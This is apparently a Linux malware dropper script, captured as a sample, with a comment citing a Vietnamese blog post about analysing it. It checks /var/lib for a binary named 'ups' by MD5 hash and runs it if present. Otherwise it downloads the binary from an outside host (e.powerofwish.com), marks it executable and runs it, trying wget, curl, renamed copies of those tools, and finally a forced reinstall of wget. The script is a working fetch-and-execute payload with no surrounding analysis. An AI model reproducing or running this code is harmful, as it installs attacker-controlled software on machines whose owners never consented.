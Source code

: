 
# https://blog.manhtuong.net/phan-tich-nhanh-mot-mau-malware-tren-linux/

PATH=$PATH:/usr/bin:/bin:/sbin:/usr/sbin:/usr/local/bin:/usr/local/sbin

cd /var/lib


if [ -x "/usr/bin/md5sum" -o -x "/bin/md5sum" ];then
	sum=`md5sum ups|grep fd3592db0ad78f9591a407a1b817c47f|grep -v grep |wc -l`
	if [ $sum -eq 1 ]; then
		chmod +x /var/lib/ups
		/var/lib/ups
		exit 0
	fi
fi

/bin/rm -rf /var/lib/ups
if [ -x "/usr/bin/wget"  -o  -x "/bin/wget" ]; then
   wget -c http://e.powerofwish.com/.../ups -O /var/lib/ups && chmod +x /var/lib/ups && /var/lib/ups
elif [ -x "/usr/bin/curl"  -o  -x "/bin/curl" ]; then
   curl -fs http://e.powerofwish.com/.../ups -o /var/lib/ups && chmod +x /var/lib/ups && /var/lib/ups
elif [ -x "/usr/bin/wge"  -o  -x "/bin/wge" ]; then
   wge -c http://e.powerofwish.com/.../ups -O /var/lib/ups && chmod +x /var/lib/ups && /var/lib/ups
elif [ -x "/usr/bin/get"  -o  -x "/bin/get" ]; then
   get -c http://e.powerofwish.com/.../ups -O /var/lib/ups && chmod +x /var/lib/ups && /var/lib/ups
elif [ -x "/usr/bin/cur"  -o  -x "/bin/cur" ]; then
   cur -fs http://e.powerofwish.com/.../ups -o /var/lib/ups && chmod +x /var/lib/ups && /var/lib/ups
elif [ -x "/usr/bin/url"  -o  -x "/bin/url" ]; then
   url -fs http://e.powerofwish.com/.../ups -o /var/lib/ups && chmod +x /var/lib/ups && /var/lib/ups
else
   rpm -e --nodeps wget
   yum -y install wget
   wget -c http://e.powerofwish.com/.../ups -O /var/lib/ups && chmod +x /var/lib/ups && /var/lib/ups
fi
